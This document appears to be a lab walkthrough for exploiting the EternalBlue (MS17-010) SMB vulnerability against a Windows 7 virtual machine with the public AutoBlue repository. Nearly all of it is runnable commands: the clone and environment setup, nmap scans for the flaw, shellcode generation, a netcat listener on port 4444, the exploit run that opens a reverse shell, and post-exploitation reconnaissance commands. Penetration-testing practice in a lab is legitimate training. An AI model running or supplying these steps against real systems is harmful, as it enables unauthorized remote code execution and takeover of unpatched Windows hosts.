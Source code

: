 1. Clone the Repo:
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git  
gh repo clone 3ndG4me/AutoBlue-MS17-010



```
cd /to the dir whre you have requirements.txt/
virtualenv venv1   
source venv/bin/activate
pip install -r requirements.txt
pip list ##to see the list of packages installed.

```

Now take a look at the shellcode.sh this will generate the shellcode.
Now before we do this lets check if the target is vuln or not?

use namp
```
sudo nmap -sV -p 445 -O 10.0.2.5
-- target is win 7
ls -la /usr/share/nmap/scripts | grep smb-

--let's see if this target is vuln to smb- script
nmap -sV -p 445 -O --script=smb- 10.0.2.5 
```

```
chmod 777 shell_prep.sh
./shell_prep.sh

---------------------------------------------------------------------------------
┌──(venv1)─(root㉿kali)-[/home/…/git_clones/metasploit_1_eternablue_manual_git/AutoBlue-MS17-010-master/shellcode]
└─# ./shell_prep.sh 
                 _.-;;-._
          '-..-'|   ||   |
          '-..-'|_.-;;-._|
          '-..-'|   ||   |
          '-..-'|_.-''-._|   
Eternal Blue Windows Shellcode Compiler

```
we're not doing the listner.py as we're using the cmd here for shell

Make the .py file executable.
```
--Another shell:
nc -nvlp 4444
--main shell
python eternalblue_exploit7.py 10.0.2.6 shellcode/sc_x64.bin 
```

    net user
    systeminfo

Done!